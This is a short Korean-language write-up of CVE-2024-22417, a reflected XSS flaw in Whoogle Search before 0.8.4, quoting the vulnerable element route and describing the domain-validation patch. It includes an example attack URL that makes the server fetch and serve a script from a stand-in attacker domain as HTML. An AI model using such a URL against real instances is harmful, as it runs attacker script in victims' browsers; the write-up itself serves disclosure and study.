

## URL

[XSS vulnerability in Whoogle Search versions prior to 0.8.4.](https://securitylab.github.com/advisories/GHSL-2023-186_GHSL-2023-189_benbusby_whoogle-search/)

## Target

- Whoogle Search < 0.8.4

## Explain

Whoogle은 개인화된 Google입니다. Google에 직접 검색 쿼리를 보내는 대신, Whoogle이 중개자 역할을 수행해 사용자 검색 쿼리를 Google에 저장하는 것을 방지하여 개인정보를 보호할 수 있습니다.

CVE-2024-22417 취약점은 사용자가 제어할 수 있는 변수에 대한 검증이 이루어지지 않아 발생했습니다.


```
def element():
    element_url = src_url = request.args.get('url')

    #code cut out for readability
    src_type = request.args.get('type')

    try:
        file_data = g.user_request.send(base_url=src_url).content
        tmp_mem = io.BytesIO()
        tmp_mem.write(file_data)
        tmp_mem.seek(0)

        return send_file(tmp_mem, mimetype=src_type)
    except exceptions.RequestException:
        pass
```
발생 위치는 `app/routes.py` 파일의 `element` 메소드이며, 공격자가 작성한 URL을 통해 타겟에서 악성 스크립트를 실행할 수 있습니다.

<br>

```
https://whoogle.dragon.local/element?url=http://ogu123-domain.com/ogu123-script.js&type=text/html
```
공격자는 취약점을 악용해 위와 같은 URL을 만들 수 있습니다.

타겟이 해당 URL에 접속할 경우 `element_url(http://ogu123-domain.com/ogu123-script.js)`로 GET 요청을 보내고 `src_type(text/html)` 형식으로 타겟 브라우저에서 응답을 실행합니다.

만약 `element_url`에서 악성코드가 포함되어 있다면, 타겟 브라우저에서 XSS가 트리거됩니다.
<br>



취약점에 대한 [패치](https://github.com/benbusby/whoogle-search/commit/3a2e0b262e4a076a20416b45e6b6f23fd265aeda)는 `src_url`에서 도메인을 추출 및 검증하는 코드를 추가하는 것으로 Reflected XSS 공격을 차단하도록 이루어졌습니다.


## Reference

- [Security-Database](https://www.security-database.com/detail.php?alert=CVE-2024-22417)
